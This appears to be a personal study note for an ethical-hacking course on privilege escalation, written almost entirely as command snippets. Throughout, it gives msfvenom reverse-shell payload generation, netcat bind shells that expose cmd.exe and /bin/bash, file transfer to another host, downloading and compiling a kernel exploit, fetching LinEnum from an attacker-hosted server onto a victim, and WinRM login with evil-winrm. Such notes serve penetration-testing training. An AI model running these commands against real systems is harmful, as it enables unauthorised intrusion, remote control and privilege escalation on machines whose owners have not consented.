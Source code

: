 ```yaml
---
title: Privilege Escalation Tools and Techniques
summary: Understand Privilege Escalation and use of tools
description: Understand Privilege Escalation and use of tools
slug: '/privilege-escalation-tool-and-techniques'
tags: ['privilege escalation', 'penetration testing', 'ethical hacking']
categories: ['ethical hacking']
disableShare: true
editPost:
  disabled: true
hideSummary: false
comments: false
searchHidden: true
hiddenInHomeList: true
private: true
---
```


## Reverse Shell

Take advantage of the target system's vulnerabilities to initiate a shell session. Here, listener is attacker.

```bash
# Windows Server
msfvenom -p windows/shell_reverse_tcp LHOST=<listener-ip-addr> LPORT=<listener-port> -f exe > shell-x64.exe

nc -lvp <listener-port>

# Now, after you download and run the app. We get the access to victim's shell.

# Java Server
msfvenom -p java/jsp_shell_reverse_tcp lhost=<listener-ip-addr> lport=<listener-port> -f war > shell.war
```

### WinPEAS

```powershell
WinPEASx65.exe systeminfo log=systeminfo.txt # Privilege Escalation
```

### netcat

#### Windows

```powershell
ncat.exe -lp 52000 # Start listening at port 52000

netstat -an | more

# If file doesn't exist it will be created else cleared and redirected.
ncat.exe -lp 55555 > alice.txt
# Append in a file instead.
ncat.exe -lp 55555 >> alice.txt

ncat.exe -lp 10314 -e cmd.exe # -e is executable i.e. cmd.exe

ncat.exe <target-linux-ip-addr> 14618 # Bash shell from Linux
```

#### Linux

```bash
nc <target-windows-ip-addr> 52000 # Linux

# Send content of the bob.txt file.
nc -w 1 <target-windows-ip-addr> 5555 < bob.txt
# If the connection and stdin are idle for more than timeout seconds,
# the connection is closed silently. Default is no timeout.
# `nc` will listen forever for a connection, with or without the -w flag.

nc <target-windows-ip-addr> 10314 # Windows prompt from Linux

nc -lp 14618 -e /bin/bash # bash as executable.

nc -nlvp 5555
# -n: no DNS or service lookups on any addresses, hostnames or port names.
# -l: listen for an incoming connection.
# -v: give more verbose output.
# -p: to specify the local port number.
```

> Note: `>` is output redirection character, `<` is input redirection character.

## exploit-db.com

Based on Linux kernal, VulnOS -> `37292`

```bash
whoami

wget https://www.exploit-db.com/exploits/44298 -O exploit.c

gcc exploit.c -o exploit
chmod 777 exploit
./exploit

whoami
```

## LinEnum

```bash
# Attacker Server
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O LinEnum # or Copy RAW to to LinEnum file.

chmod +x LinEnum

python -m http.server 8000 # Serving http server to host a file to download.

# Victim Client
wget http://<attacker-ip-addr>:8000/LinEnum

./LinEnum
```

## Gobuster - Directory Traversal

```bash
# -u assign target
# -w word list
# -x is list of extensions
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <target-ip-addr>

gobuster dir -w /usr/share/wordlists/dirb/common.txt -x .php,.txt,.html -u <target-ip-addr>
```

## Spawning Bash Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")' # Pseudo-terminal utilities
```

## Root Login on NOPASSWD Sudoer

> `sudo -l`: This command is used to list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.

> `sudo -i`: This command, also known as sudo --login, starts a new shell as the target user (root by default), and changes to their home directory.

## Window Remote Management (WinRM)

```bash
evil-winrm -i <target-windows-ip-addr> -u 'admin' -p 'pass'
```

> Which metasploit module can be used in this case to abuse Windows Remote Management?
> **auxiliary/scanner/winrm/winrm_login**

## Reference

- https://github.com/ec-council-learning/Pentesting-Fundamentals-for-Beginners

